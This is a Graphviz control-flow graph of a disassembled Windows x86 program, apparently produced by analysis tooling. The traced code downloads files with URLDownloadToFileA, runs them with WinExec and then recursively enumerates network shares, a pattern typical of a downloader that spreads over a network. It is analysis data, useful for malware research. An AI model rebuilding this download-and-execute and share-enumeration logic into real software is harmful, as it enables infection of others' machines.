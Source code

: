 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x004076dcpushl_ebp[label="start\npushl %ebp",fillcolor="orange",color="lightgrey"];
a0x004076ddmovl_esp_ebp[label="0x004076dd\nmovl %esp, %ebp"];
a0x004076dfaddl_0xffffffecUINT8_esp[label="0x004076df\naddl $0xffffffec<UINT8>, %esp"];
a0x004076e2xorl_eax_eax[label="0x004076e2\nxorl %eax, %eax"];
a0x004076e4movl_eax__20ebp_[label="0x004076e4\nmovl %eax, -20(%ebp)"];
a0x004076e7movl_0x407694UINT32_eax[label="0x004076e7\nmovl $0x407694<UINT32>, %eax"];
a0x004076eccall_0x00404444[label="0x004076ec\ncall 0x00404444"];
a0x00404444pushl_ebx[label="0x00404444\npushl %ebx"];
a0x00404445movl_eax_ebx[label="0x00404445\nmovl %eax, %ebx"];
a0x00404447xorl_eax_eax[label="0x00404447\nxorl %eax, %eax"];
a0x00404449movl_eax_0x004096f8[label="0x00404449\nmovl %eax, 0x004096f8"];
a0x0040444epushl_0x0UINT8[label="0x0040444e\npushl $0x0<UINT8>"];
a0x00404450call_0x00404380[label="0x00404450\ncall 0x00404380"];
a0x00404380jmp_GetModuleHandleA_kernel32_dll[label="0x00404380\njmp GetModuleHandleA@kernel32.dll"];
GetModuleHandleA_kernel32_dll[label="GetModuleHandleA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00404455movl_eax_0x00409700[label="0x00404455\nmovl %eax, 0x00409700"];
a0x0040445amovl_0x00409700_eax[label="0x0040445a\nmovl 0x00409700, %eax"];
a0x0040445fmovl_eax_0x004080b0[label="0x0040445f\nmovl %eax, 0x004080b0"];
a0x00404464xorl_eax_eax[label="0x00404464\nxorl %eax, %eax"];
a0x00404466movl_eax_0x004080b4[label="0x00404466\nmovl %eax, 0x004080b4"];
a0x0040446bxorl_eax_eax[label="0x0040446b\nxorl %eax, %eax"];
a0x0040446dmovl_eax_0x004080b8[label="0x0040446d\nmovl %eax, 0x004080b8"];
a0x00404472call_0x00404438[label="0x00404472\ncall 0x00404438"];
a0x00404438movl_0x4080acUINT32_eax[label="0x00404438\nmovl $0x4080ac<UINT32>, %eax"];
a0x0040443dcall_0x00404220[label="0x0040443d\ncall 0x00404220"];
a0x00404220movl_0x00408024_edx[label="0x00404220\nmovl 0x00408024, %edx"];
a0x00404226movl_edx_eax_[label="0x00404226\nmovl %edx, (%eax)"];
a0x00404228movl_eax_0x00408024[label="0x00404228\nmovl %eax, 0x00408024"];
a0x0040422dret[label="0x0040422d\nret"];
a0x00404442ret[label="0x00404442\nret"];
a0x00404477movl_0x4080acUINT32_edx[label="0x00404477\nmovl $0x4080ac<UINT32>, %edx"];
a0x0040447cmovl_ebx_eax[label="0x0040447c\nmovl %ebx, %eax"];
a0x0040447ecall_0x004037e0[label="0x0040447e\ncall 0x004037e0"];
a0x004037e0movl_0x40103cUINT32_0x00409010[label="0x004037e0\nmovl $0x40103c<UINT32>, 0x00409010"];
a0x004037eamovl_0x40104cUINT32_0x00409014[label="0x004037ea\nmovl $0x40104c<UINT32>, 0x00409014"];
a0x004037f4movl_eax_0x00409624[label="0x004037f4\nmovl %eax, 0x00409624"];
a0x004037f9xorl_eax_eax[label="0x004037f9\nxorl %eax, %eax"];
a0x004037fbmovl_eax_0x00409628[label="0x004037fb\nmovl %eax, 0x00409628"];
a0x00403800movl_edx_0x0040962c[label="0x00403800\nmovl %edx, 0x0040962c"];
a0x00403806movl_0x4edx__eax[label="0x00403806\nmovl 0x4(%edx), %eax"];
a0x00403809movl_eax_0x0040901c[label="0x00403809\nmovl %eax, 0x0040901c"];
a0x0040380ecall_0x004036d8[label="0x0040380e\ncall 0x004036d8"];
a0x004036d8xorl_edx_edx[label="0x004036d8\nxorl %edx, %edx"];
a0x004036daleal__12ebp__eax[label="0x004036da\nleal -12(%ebp), %eax"];
a0x004036ddmovl_fs_edx__ecx[label="0x004036dd\nmovl %fs:(%edx), %ecx"];
a0x004036e0movl_eax_fs_edx_[label="0x004036e0\nmovl %eax, %fs:(%edx)"];
a0x004036e3movl_ecx_eax_[label="0x004036e3\nmovl %ecx, (%eax)"];
a0x004036e5movl_0x403638UINT32_0x4eax_[label="0x004036e5\nmovl $0x403638<UINT32>, 0x4(%eax)"];
a0x004036ecmovl_ebp_0x8eax_[label="0x004036ec\nmovl %ebp, 0x8(%eax)"];
a0x004036efmovl_eax_0x00409620[label="0x004036ef\nmovl %eax, 0x00409620"];
a0x004036f4ret[label="0x004036f4\nret"];
a0x00403813movb_0x0UINT8_0x00409024[label="0x00403813\nmovb $0x0<UINT8>, 0x00409024"];
a0x0040381acall_0x00403780[label="0x0040381a\ncall 0x00403780"];
a0x00403780pushl_ebp[label="0x00403780\npushl %ebp"];
a0x00403781movl_esp_ebp[label="0x00403781\nmovl %esp, %ebp"];
a0x00403783pushl_ebx[label="0x00403783\npushl %ebx"];
a0x00403784pushl_esi[label="0x00403784\npushl %esi"];
a0x00403785pushl_edi[label="0x00403785\npushl %edi"];
a0x00403786movl_0x00409624_eax[label="0x00403786\nmovl 0x00409624, %eax"];
a0x0040378btestl_eax_eax[label="0x0040378b\ntestl %eax, %eax"];
a0x0040378dje_0x004037da[label="0x0040378d\nje 0x004037da"];
a0x0040378fmovl_eax__esi[label="0x0040378f\nmovl (%eax), %esi"];
a0x00403791xorl_ebx_ebx[label="0x00403791\nxorl %ebx, %ebx"];
a0x00403793movl_0x4eax__edi[label="0x00403793\nmovl 0x4(%eax), %edi"];
a0x00403796xorl_edx_edx[label="0x00403796\nxorl %edx, %edx"];
a0x00403798pushl_ebp[label="0x00403798\npushl %ebp"];
a0x00403799pushl_0x4037c6UINT32[label="0x00403799\npushl $0x4037c6<UINT32>"];
a0x0040379epushl_fs_edx_[label="0x0040379e\npushl %fs:(%edx)"];
a0x004037a1movl_esp_fs_edx_[label="0x004037a1\nmovl %esp, %fs:(%edx)"];
a0x004037a4cmpl_ebx_esi[label="0x004037a4\ncmpl %ebx, %esi"];
a0x004037a6jle_0x004037bc[label="0x004037a6\njle 0x004037bc"];
a0x004037a8movl_ediebx8__eax[label="0x004037a8\nmovl (%edi,%ebx,8), %eax"];
a0x004037abincl_ebx[label="0x004037ab\nincl %ebx"];
a0x004037acmovl_ebx_0x00409628[label="0x004037ac\nmovl %ebx, 0x00409628"];
a0x004037b2testl_eax_eax[label="0x004037b2\ntestl %eax, %eax"];
a0x004037b4je_0x004037b8[label="0x004037b4\nje 0x004037b8"];
a0x004037b6call_eax[label="0x004037b6\ncall %eax"];
a0x004044b8subl_0x1UINT8_0x00409704[label="0x004044b8\nsubl $0x1<UINT8>, 0x00409704"];
a0x004044bfret[label="0x004044bf\nret"];
a0x004037b8cmpl_ebx_esi[label="0x004037b8\ncmpl %ebx, %esi"];
a0x004037bajg_0x004037a8[label="0x004037ba\njg 0x004037a8"];
a0x0040430csubl_0x1UINT8_0x004095a4[label="0x0040430c\nsubl $0x1<UINT8>, 0x004095a4"];
a0x00404313jae_0x0040437e[label="0x00404313\njae 0x0040437e"];
a0x00404315movb_0x2UINT8_0x0040800c[label="0x00404315\nmovb $0x2<UINT8>, 0x0040800c"];
a0x0040431cmovb_0x2UINT8_0x00409036[label="0x0040431c\nmovb $0x2<UINT8>, 0x00409036"];
a0x00404323movl_0x404180UINT32_0x00409000[label="0x00404323\nmovl $0x404180<UINT32>, 0x00409000"];
a0x0040432dcall_0x0040319c[label="0x0040432d\ncall 0x0040319c"];
a0x0040319cpushl_ebx[label="0x0040319c\npushl %ebx"];
a0x0040319dxorl_ebx_ebx[label="0x0040319d\nxorl %ebx, %ebx"];
a0x0040319fpushl_0x0UINT8[label="0x0040319f\npushl $0x0<UINT8>"];
a0x004031a1call_0x00403194[label="0x004031a1\ncall 0x00403194"];
a0x00403194jmp_GetKeyboardType_user32_dll[label="0x00403194\njmp GetKeyboardType@user32.dll"];
GetKeyboardType_user32_dll[label="GetKeyboardType@user32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004031a6cmpl_0x7UINT8_eax[label="0x004031a6\ncmpl $0x7<UINT8>, %eax"];
a0x004031a9jne_0x004031c7[label="0x004031a9\njne 0x004031c7"];
a0x004031c7movl_ebx_eax[label="0x004031c7\nmovl %ebx, %eax"];
a0x004031c9popl_ebx[label="0x004031c9\npopl %ebx"];
a0x004031caret[label="0x004031ca\nret"];
a0x00404332testb_al_al[label="0x00404332\ntestb %al, %al"];
a0x00404334je_0x0040433b[label="0x00404334\nje 0x0040433b"];
a0x0040433bcall_0x00403290[label="0x0040433b\ncall 0x00403290"];
a0x00403290fninit_[label="0x00403290\nfninit "];
a0x00403292fwait_[label="0x00403292\nfwait "];
a0x00403293fldcw_0x00408010[label="0x00403293\nfldcw 0x00408010"];
a0x00403299ret[label="0x00403299\nret"];
a0x00404340movw_0xffffd7b0UINT16_0x0040903c[label="0x00404340\nmovw $0xffffd7b0<UINT16>, 0x0040903c"];
a0x00404349movw_0xffffd7b0UINT16_0x00409208[label="0x00404349\nmovw $0xffffd7b0<UINT16>, 0x00409208"];
a0x00404352movw_0xffffd7b0UINT16_0x004093d4[label="0x00404352\nmovw $0xffffd7b0<UINT16>, 0x004093d4"];
a0x0040435bcall_0x00404150[label="0x0040435b\ncall 0x00404150"];
a0x00404150movl_0x409648UINT32_edx[label="0x00404150\nmovl $0x409648<UINT32>, %edx"];
a0x00404155xorl_eax_eax[label="0x00404155\nxorl %eax, %eax"];
a0x00404157movl_0x404130UINT32_edxeax4_[label="0x00404157\nmovl $0x404130<UINT32>, (%edx,%eax,4)"];
a0x0040415eincl_eax[label="0x0040415e\nincl %eax"];
a0x0040415fcmpl_0x2bUINT8_eax[label="0x0040415f\ncmpl $0x2b<UINT8>, %eax"];
a0x00404162jne_0x00404157[label="0x00404162\njne 0x00404157"];
a0x00404164movl_0x404138UINT32_eax[label="0x00404164\nmovl $0x404138<UINT32>, %eax"];
a0x00404169movl_eax_0x00409648[label="0x00404169\nmovl %eax, 0x00409648"];
a0x0040416eret[label="0x0040416e\nret"];
a0x00404360call_0x00401094[label="0x00404360\ncall 0x00401094"];
a0x00401094jmp_GetCommandLineA_kernel32_dll[label="0x00401094\njmp GetCommandLineA@kernel32.dll"];
GetCommandLineA_kernel32_dll[label="GetCommandLineA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00404365movl_eax_0x0040902c[label="0x00404365\nmovl %eax, 0x0040902c"];
a0x0040436acall_0x004010dc[label="0x0040436a\ncall 0x004010dc"];
a0x004010dcpushl_ebx[label="0x004010dc\npushl %ebx"];
a0x004010ddaddl_0xffffffbcUINT8_esp[label="0x004010dd\naddl $0xffffffbc<UINT8>, %esp"];
a0x004010e0movl_0xaUINT32_ebx[label="0x004010e0\nmovl $0xa<UINT32>, %ebx"];
a0x004010e5pushl_esp[label="0x004010e5\npushl %esp"];
a0x004010e6call_0x004010ac[label="0x004010e6\ncall 0x004010ac"];
a0x004010acjmp_GetStartupInfoA_kernel32_dll[label="0x004010ac\njmp GetStartupInfoA@kernel32.dll"];
GetStartupInfoA_kernel32_dll[label="GetStartupInfoA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004010ebtestb_0x1UINT8_0x2cesp_[label="0x004010eb\ntestb $0x1<UINT8>, 0x2c(%esp)"];
a0x004010f0je_0x004010f7[label="0x004010f0\nje 0x004010f7"];
a0x004010f7movl_ebx_eax[label="0x004010f7\nmovl %ebx, %eax"];
a0x004010f9addl_0x44UINT8_esp[label="0x004010f9\naddl $0x44<UINT8>, %esp"];
a0x004010fcpopl_ebx[label="0x004010fc\npopl %ebx"];
a0x004010fdret[label="0x004010fd\nret"];
a0x0040436fmovl_eax_0x00409028[label="0x0040436f\nmovl %eax, 0x00409028"];
a0x00404374call_0x004010d4[label="0x00404374\ncall 0x004010d4"];
a0x004010d4jmp_GetCurrentThreadId_kernel32_dll[label="0x004010d4\njmp GetCurrentThreadId@kernel32.dll"];
GetCurrentThreadId_kernel32_dll[label="GetCurrentThreadId@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00404379movl_eax_0x00409020[label="0x00404379\nmovl %eax, 0x00409020"];
a0x0040437eret[label="0x0040437e\nret"];
a0x004044f0subl_0x1UINT8_0x0040970c[label="0x004044f0\nsubl $0x1<UINT8>, 0x0040970c"];
a0x004044f7ret[label="0x004044f7\nret"];
a0x004045a8subl_0x1UINT8_0x00409710[label="0x004045a8\nsubl $0x1<UINT8>, 0x00409710"];
a0x004045afret[label="0x004045af\nret"];
a0x00404630subl_0x1UINT8_0x00409714[label="0x00404630\nsubl $0x1<UINT8>, 0x00409714"];
a0x00404637ret[label="0x00404637\nret"];
a0x00404670subl_0x1UINT8_0x00409718[label="0x00404670\nsubl $0x1<UINT8>, 0x00409718"];
a0x00404677ret[label="0x00404677\nret"];
a0x00404e34subl_0x1UINT8_0x004198c8[label="0x00404e34\nsubl $0x1<UINT8>, 0x004198c8"];
a0x00404e3bret[label="0x00404e3b\nret"];
a0x004037bcxorl_eax_eax[label="0x004037bc\nxorl %eax, %eax"];
a0x004037bepopl_edx[label="0x004037be\npopl %edx"];
a0x004037bfpopl_ecx[label="0x004037bf\npopl %ecx"];
a0x004037c0popl_ecx[label="0x004037c0\npopl %ecx"];
a0x004037c1movl_edx_fs_eax_[label="0x004037c1\nmovl %edx, %fs:(%eax)"];
a0x004037c4jmp_0x004037da[label="0x004037c4\njmp 0x004037da"];
a0x004037dapopl_edi[label="0x004037da\npopl %edi"];
a0x004037dbpopl_esi[label="0x004037db\npopl %esi"];
a0x004037dcpopl_ebx[label="0x004037dc\npopl %ebx"];
a0x004037ddpopl_ebp[label="0x004037dd\npopl %ebp"];
a0x004037deret[label="0x004037de\nret"];
a0x0040381fret[label="0x0040381f\nret"];
a0x00404483popl_ebx[label="0x00404483\npopl %ebx"];
a0x00404484ret[label="0x00404484\nret"];
a0x004076f1xorl_eax_eax[label="0x004076f1\nxorl %eax, %eax"];
a0x004076f3pushl_ebp[label="0x004076f3\npushl %ebp"];
a0x004076f4pushl_0x4077fdUINT32[label="0x004076f4\npushl $0x4077fd<UINT32>"];
a0x004076f9pushl_fs_eax_[label="0x004076f9\npushl %fs:(%eax)"];
a0x004076fcmovl_esp_fs_eax_[label="0x004076fc\nmovl %esp, %fs:(%eax)"];
a0x004076ffpushl_0x0UINT8[label="0x004076ff\npushl $0x0<UINT8>"];
a0x00407701pushl_0x0UINT8[label="0x00407701\npushl $0x0<UINT8>"];
a0x00407703pushl_0x40780cUINT32[label="0x00407703\npushl $0x40780c<UINT32>"];
a0x00407708pushl_0x407810UINT32[label="0x00407708\npushl $0x407810<UINT32>"];
a0x0040770dpushl_0x0UINT8[label="0x0040770d\npushl $0x0<UINT8>"];
a0x0040770fcall_0x00405a24[label="0x0040770f\ncall 0x00405a24"];
a0x00405a24jmp_URLDownloadToFileA_urlmon_dll[label="0x00405a24\njmp URLDownloadToFileA@urlmon.dll"];
URLDownloadToFileA_urlmon_dll[label="URLDownloadToFileA@urlmon.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00407714pushl_0x0UINT8[label="0x00407714\npushl $0x0<UINT8>"];
a0x00407716pushl_0x0UINT8[label="0x00407716\npushl $0x0<UINT8>"];
a0x00407718pushl_0x40782cUINT32[label="0x00407718\npushl $0x40782c<UINT32>"];
a0x0040771dpushl_0x40783cUINT32[label="0x0040771d\npushl $0x40783c<UINT32>"];
a0x00407722pushl_0x0UINT8[label="0x00407722\npushl $0x0<UINT8>"];
a0x00407724call_0x00405a24[label="0x00407724\ncall 0x00405a24"];
a0x00407729pushl_0x0UINT8[label="0x00407729\npushl $0x0<UINT8>"];
a0x0040772bpushl_0x40782cUINT32[label="0x0040772b\npushl $0x40782c<UINT32>"];
a0x00407730call_0x00404548[label="0x00407730\ncall 0x00404548"];
a0x00404548jmp_WinExec_kernel32_dll[label="0x00404548\njmp WinExec@kernel32.dll"];
WinExec_kernel32_dll[label="WinExec@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00407735pushl_0x0UINT8[label="0x00407735\npushl $0x0<UINT8>"];
a0x00407737pushl_0x0UINT8[label="0x00407737\npushl $0x0<UINT8>"];
a0x00407739pushl_0x407894UINT32[label="0x00407739\npushl $0x407894<UINT32>"];
a0x0040773epushl_0x4078a4UINT32[label="0x0040773e\npushl $0x4078a4<UINT32>"];
a0x00407743pushl_0x0UINT8[label="0x00407743\npushl $0x0<UINT8>"];
a0x00407745call_0x00405a24[label="0x00407745\ncall 0x00405a24"];
a0x0040774apushl_0x0UINT8[label="0x0040774a\npushl $0x0<UINT8>"];
a0x0040774cpushl_0x407894UINT32[label="0x0040774c\npushl $0x407894<UINT32>"];
a0x00407751call_0x00404548[label="0x00407751\ncall 0x00404548"];
a0x00407756call_0x00406530[label="0x00407756\ncall 0x00406530"];
a0x00406530pushl_ebp[label="0x00406530\npushl %ebp"];
a0x00406531movl_esp_ebp[label="0x00406531\nmovl %esp, %ebp"];
a0x00406533addl_0xfffffe1cUINT32_esp[label="0x00406533\naddl $0xfffffe1c<UINT32>, %esp"];
a0x00406539pushl_ebx[label="0x00406539\npushl %ebx"];
a0x0040653apushl_esi[label="0x0040653a\npushl %esi"];
a0x0040653bpushl_edi[label="0x0040653b\npushl %edi"];
a0x0040653cxorl_eax_eax[label="0x0040653c\nxorl %eax, %eax"];
a0x0040653emovl_eax__484ebp_[label="0x0040653e\nmovl %eax, -484(%ebp)"];
a0x00406544movl_eax__476ebp_[label="0x00406544\nmovl %eax, -476(%ebp)"];
a0x0040654amovl_eax__480ebp_[label="0x0040654a\nmovl %eax, -480(%ebp)"];
a0x00406550movl_eax__468ebp_[label="0x00406550\nmovl %eax, -468(%ebp)"];
a0x00406556movl_eax__472ebp_[label="0x00406556\nmovl %eax, -472(%ebp)"];
a0x0040655cmovl_eax__4ebp_[label="0x0040655c\nmovl %eax, -4(%ebp)"];
a0x0040655fxorl_eax_eax[label="0x0040655f\nxorl %eax, %eax"];
a0x00406561pushl_ebp[label="0x00406561\npushl %ebp"];
a0x00406562pushl_0x4066fbUINT32[label="0x00406562\npushl $0x4066fb<UINT32>"];
a0x00406567pushl_fs_eax_[label="0x00406567\npushl %fs:(%eax)"];
a0x0040656amovl_esp_fs_eax_[label="0x0040656a\nmovl %esp, %fs:(%eax)"];
a0x0040656dxorl_eax_eax[label="0x0040656d\nxorl %eax, %eax"];
a0x0040656fcall_0x004063e8[label="0x0040656f\ncall 0x004063e8"];
a0x004063e8pushl_ebp[label="0x004063e8\npushl %ebp"];
a0x004063e9movl_esp_ebp[label="0x004063e9\nmovl %esp, %ebp"];
a0x004063ebpushl_eax[label="0x004063eb\npushl %eax"];
a0x004063ecmovl_0x8UINT32_eax[label="0x004063ec\nmovl $0x8<UINT32>, %eax"];
a0x004063f1addl_0xfffff004UINT32_esp[label="0x004063f1\naddl $0xfffff004<UINT32>, %esp"];
a0x004063f7pushl_eax[label="0x004063f7\npushl %eax"];
a0x004063f8decl_eax[label="0x004063f8\ndecl %eax"];
a0x004063f9jne_0x004063f1[label="0x004063f9\njne 0x004063f1"];
a0x004063fbmovl__4ebp__eax[label="0x004063fb\nmovl -4(%ebp), %eax"];
a0x004063feaddl_0xffffffe8UINT8_esp[label="0x004063fe\naddl $0xffffffe8<UINT8>, %esp"];
a0x00406401pushl_ebx[label="0x00406401\npushl %ebx"];
a0x00406402pushl_esi[label="0x00406402\npushl %esi"];
a0x00406403pushl_edi[label="0x00406403\npushl %edi"];
a0x00406404xorl_edx_edx[label="0x00406404\nxorl %edx, %edx"];
a0x00406406movl_edx__32788ebp_[label="0x00406406\nmovl %edx, -32788(%ebp)"];
a0x0040640cmovl_edx__32792ebp_[label="0x0040640c\nmovl %edx, -32792(%ebp)"];
a0x00406412movl_edx__32796ebp_[label="0x00406412\nmovl %edx, -32796(%ebp)"];
a0x00406418movl_eax__4ebp_[label="0x00406418\nmovl %eax, -4(%ebp)"];
a0x0040641bmovl_0x4198ccUINT32_edi[label="0x0040641b\nmovl $0x4198cc<UINT32>, %edi"];
a0x00406420xorl_eax_eax[label="0x00406420\nxorl %eax, %eax"];
a0x00406422pushl_ebp[label="0x00406422\npushl %ebp"];
a0x00406423pushl_0x406514UINT32[label="0x00406423\npushl $0x406514<UINT32>"];
a0x00406428pushl_fs_eax_[label="0x00406428\npushl %fs:(%eax)"];
a0x0040642bmovl_esp_fs_eax_[label="0x0040642b\nmovl %esp, %fs:(%eax)"];
a0x0040642eleal__8ebp__eax[label="0x0040642e\nleal -8(%ebp), %eax"];
a0x00406431pushl_eax[label="0x00406431\npushl %eax"];
a0x00406432movl__4ebp__eax[label="0x00406432\nmovl -4(%ebp), %eax"];
a0x00406435pushl_eax[label="0x00406435\npushl %eax"];
a0x00406436pushl_0x0UINT8[label="0x00406436\npushl $0x0<UINT8>"];
a0x00406438pushl_0x0UINT8[label="0x00406438\npushl $0x0<UINT8>"];
a0x0040643apushl_0x2UINT8[label="0x0040643a\npushl $0x2<UINT8>"];
a0x0040643ccall_0x00404560[label="0x0040643c\ncall 0x00404560"];
a0x00404560jmp_WNetOpenEnumA_mpr_dll[label="0x00404560\njmp WNetOpenEnumA@mpr.dll"];
WNetOpenEnumA_mpr_dll[label="WNetOpenEnumA@mpr.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00406441movl_0x400UINT32__12ebp_[label="0x00406441\nmovl $0x400<UINT32>, -12(%ebp)"];
a0x00406448movl_0x8000UINT32__16ebp_[label="0x00406448\nmovl $0x8000<UINT32>, -16(%ebp)"];
a0x0040644fjmp_0x004064cd[label="0x0040644f\njmp 0x004064cd"];
a0x004064cdleal__16ebp__eax[label="0x004064cd\nleal -16(%ebp), %eax"];
a0x004064d0pushl_eax[label="0x004064d0\npushl %eax"];
a0x004064d1leal__32784ebp__eax[label="0x004064d1\nleal -32784(%ebp), %eax"];
a0x004064d7pushl_eax[label="0x004064d7\npushl %eax"];
a0x004064d8leal__12ebp__eax[label="0x004064d8\nleal -12(%ebp), %eax"];
a0x004064dbpushl_eax[label="0x004064db\npushl %eax"];
a0x004064dcmovl__8ebp__eax[label="0x004064dc\nmovl -8(%ebp), %eax"];
a0x004064dfpushl_eax[label="0x004064df\npushl %eax"];
a0x004064e0call_0x00404558[label="0x004064e0\ncall 0x00404558"];
a0x00404558jmp_WNetEnumResourceA_mpr_dll[label="0x00404558\njmp WNetEnumResourceA@mpr.dll"];
WNetEnumResourceA_mpr_dll[label="WNetEnumResourceA@mpr.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004064e5testl_eax_eax[label="0x004064e5\ntestl %eax, %eax"];
a0x004064e7je_0x00406451[label="0x004064e7\nje 0x00406451"];
a0x004064edmovl__8ebp__eax[label="0x004064ed\nmovl -8(%ebp), %eax"];
a0x00406451movl__12ebp__esi[label="0x00406451\nmovl -12(%ebp), %esi"];
a0x00406454decl_esi[label="0x00406454\ndecl %esi"];
a0x00406455testl_esi_esi[label="0x00406455\ntestl %esi, %esi"];
a0x00406457jl_0x004064cd[label="0x00406457\njl 0x004064cd"];
a0x00406459incl_esi[label="0x00406459\nincl %esi"];
a0x0040645aleal__32776ebp__ebx[label="0x0040645a\nleal -32776(%ebp), %ebx"];
a0x00406460cmpl_0x2UINT8_ebx_[label="0x00406460\ncmpl $0x2<UINT8>, (%ebx)"];
a0x00406463jne_0x004064b9[label="0x00406463\njne 0x004064b9"];
a0x004064b9cmpl_0x0UINT8_0x4ebx_[label="0x004064b9\ncmpl $0x0<UINT8>, 0x4(%ebx)"];
a0x004064bdjbe_0x004064c7[label="0x004064bd\njbe 0x004064c7"];
a0x004064bfleal__8ebx__eax[label="0x004064bf\nleal -8(%ebx), %eax"];
a0x004064c2call_0x004063e8[label="0x004064c2\ncall 0x004063e8"];
a0x00406514jmp_0x004034c4[label="0x00406514\njmp 0x004034c4"];
a0x004034c4movl_0x4esp__eax[label="0x004034c4\nmovl 0x4(%esp), %eax"];
a0x004034c8movl_0x8esp__edx[label="0x004034c8\nmovl 0x8(%esp), %edx"];
a0x004034cctestl_0x6UINT32_0x4eax_[label="0x004034cc\ntestl $0x6<UINT32>, 0x4(%eax)"];
a0x004034d3je_0x004034f4[label="0x004034d3\nje 0x004034f4"];
a0x004034f4movl_0x1UINT32_eax[label="0x004034f4\nmovl $0x1<UINT32>, %eax"];
a0x004034f9ret[label="0x004034f9\nret"];
a0x004064c7addl_0x20UINT8_ebx[label="0x004064c7\naddl $0x20<UINT8>, %ebx"];
a0x004064cadecl_esi[label="0x004064ca\ndecl %esi"];
a0x004064cbjne_0x00406460[label="0x004064cb\njne 0x00406460"];
a0x004076dcpushl_ebp -> a0x004076ddmovl_esp_ebp [color="#000000"];
a0x004076ddmovl_esp_ebp -> a0x004076dfaddl_0xffffffecUINT8_esp [color="#000000"];
a0x004076dfaddl_0xffffffecUINT8_esp -> a0x004076e2xorl_eax_eax [color="#000000"];
a0x004076e2xorl_eax_eax -> a0x004076e4movl_eax__20ebp_ [color="#000000"];
a0x004076e4movl_eax__20ebp_ -> a0x004076e7movl_0x407694UINT32_eax [color="#000000"];
a0x004076e7movl_0x407694UINT32_eax -> a0x004076eccall_0x00404444 [color="#000000"];
a0x004076eccall_0x00404444 -> a0x00404444pushl_ebx [color="#000000"];
a0x00404444pushl_ebx -> a0x00404445movl_eax_ebx [color="#000000"];
a0x00404445movl_eax_ebx -> a0x00404447xorl_eax_eax [color="#000000"];
a0x00404447xorl_eax_eax -> a0x00404449movl_eax_0x004096f8 [color="#000000"];
a0x00404449movl_eax_0x004096f8 -> a0x0040444epushl_0x0UINT8 [color="#000000"];
a0x0040444epushl_0x0UINT8 -> a0x00404450call_0x00404380 [color="#000000"];
a0x00404450call_0x00404380 -> a0x00404380jmp_GetModuleHandleA_kernel32_dll [color="#000000"];
a0x00404380jmp_GetModuleHandleA_kernel32_dll -> GetModuleHandleA_kernel32_dll [color="#000000"];
GetModuleHandleA_kernel32_dll -> a0x00404455movl_eax_0x00409700 [color="#000000"];
a0x00404455movl_eax_0x00409700 -> a0x0040445amovl_0x00409700_eax [color="#000000"];
a0x0040445amovl_0x00409700_eax -> a0x0040445fmovl_eax_0x004080b0 [color="#000000"];
a0x0040445fmovl_eax_0x004080b0 -> a0x00404464xorl_eax_eax [color="#000000"];
a0x00404464xorl_eax_eax -> a0x00404466movl_eax_0x004080b4 [color="#000000"];
a0x00404466movl_eax_0x004080b4 -> a0x0040446bxorl_eax_eax [color="#000000"];
a0x0040446bxorl_eax_eax -> a0x0040446dmovl_eax_0x004080b8 [color="#000000"];
a0x0040446dmovl_eax_0x004080b8 -> a0x00404472call_0x00404438 [color="#000000"];
a0x00404472call_0x00404438 -> a0x00404438movl_0x4080acUINT32_eax [color="#000000"];
a0x00404438movl_0x4080acUINT32_eax -> a0x0040443dcall_0x00404220 [color="#000000"];
a0x0040443dcall_0x00404220 -> a0x00404220movl_0x00408024_edx [color="#000000"];
a0x00404220movl_0x00408024_edx -> a0x00404226movl_edx_eax_ [color="#000000"];
a0x00404226movl_edx_eax_ -> a0x00404228movl_eax_0x00408024 [color="#000000"];
a0x00404228movl_eax_0x00408024 -> a0x0040422dret [color="#000000"];
a0x0040422dret -> a0x00404442ret [color="#000000"];
a0x00404442ret -> a0x00404477movl_0x4080acUINT32_edx [color="#000000"];
a0x00404477movl_0x4080acUINT32_edx -> a0x0040447cmovl_ebx_eax [color="#000000"];
a0x0040447cmovl_ebx_eax -> a0x0040447ecall_0x004037e0 [color="#000000"];
a0x0040447ecall_0x004037e0 -> a0x004037e0movl_0x40103cUINT32_0x00409010 [color="#000000"];
a0x004037e0movl_0x40103cUINT32_0x00409010 -> a0x004037eamovl_0x40104cUINT32_0x00409014 [color="#000000"];
a0x004037eamovl_0x40104cUINT32_0x00409014 -> a0x004037f4movl_eax_0x00409624 [color="#000000"];
